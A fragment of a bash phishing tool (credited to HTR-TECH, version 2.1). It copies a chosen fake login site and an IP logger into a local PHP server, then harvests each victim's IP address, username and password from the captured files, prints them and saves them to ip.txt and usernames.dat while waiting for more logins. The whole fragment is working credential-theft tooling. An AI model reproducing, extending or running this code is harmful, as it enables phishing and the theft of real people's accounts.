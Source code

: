 ## About
about() {
	{ clear; banner; echo; }
	cat <<- EOF
		${GREEN}Author   ${RED}:  ${ORANGE}TAHMID RAYAT ${RED}[ ${ORANGE}HTR-TECH ${RED}]
		${GREEN}Github   ${RED}:  ${CYAN}https://github.com/htr-tech
		${GREEN}Social   ${RED}:  ${CYAN}https://linktr.ee/tahmid.rayat
		${GREEN}Version  ${RED}:  ${ORANGE}2.1
		${REDBG}${WHITE} Thanks : Adi1090x,MoisesTapia,ThelinuxChoice
								  DarkSecDevelopers,Mustakim Ahmed ${RESETBG}
		${RED}[${WHITE}00${RED}]${ORANGE} Main Menu     ${RED}[${WHITE}99${RED}]${ORANGE} Exit
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	if [[ "$REPLY" == 99 ]]; then
		msg_exit
	elif [[ "$REPLY" == 0 || "$REPLY" == 00 ]]; then
		echo -ne "\n${GREEN}[${WHITE}+${GREEN}]${CYAN} Returning to main menu..."
		{ sleep 1; main_menu; }
	else
		echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
		{ sleep 1; about; }
	fi
}

## Setup website and start php server
HOST='127.0.0.1'
PORT='8080'

setup_site() {
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Setting up server..."${WHITE}
	cp -rf .sites/"$website"/* .server/www
	cp -f .sites/ip.php .server/www/
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Starting PHP server..."${WHITE}
	cd .server/www && php -S "$HOST":"$PORT" > /dev/null 2>&1 & 
}

## Get IP address
capture_ip() {
	IP=$(grep -a 'IP:' .server/www/ip.txt | cut -d " " -f2 | tr -d '\r')
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Victim's IP : ${BLUE}$IP"
	echo -ne "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}ip.txt"
	cat .server/www/ip.txt >> ip.txt
}

## Get credentials
capture_creds() {
	ACCOUNT=$(grep -o 'Username:.*' .server/www/usernames.txt | cut -d " " -f2)
	PASSWORD=$(grep -o 'Pass:.*' .server/www/usernames.txt | cut -d ":" -f2)
	IFS=$'\n'
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Account : ${BLUE}$ACCOUNT"
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Password : ${BLUE}$PASSWORD"
	echo -e "\n${RED}[${WHITE}-${RED}]${BLUE} Saved in : ${ORANGE}usernames.dat"
	cat .server/www/usernames.txt >> usernames.dat
	echo -ne "\n${RED}[${WHITE}-${RED}]${ORANGE} Waiting for Next Login Info, ${BLUE}Ctrl + C ${ORANGE}to exit. "
}

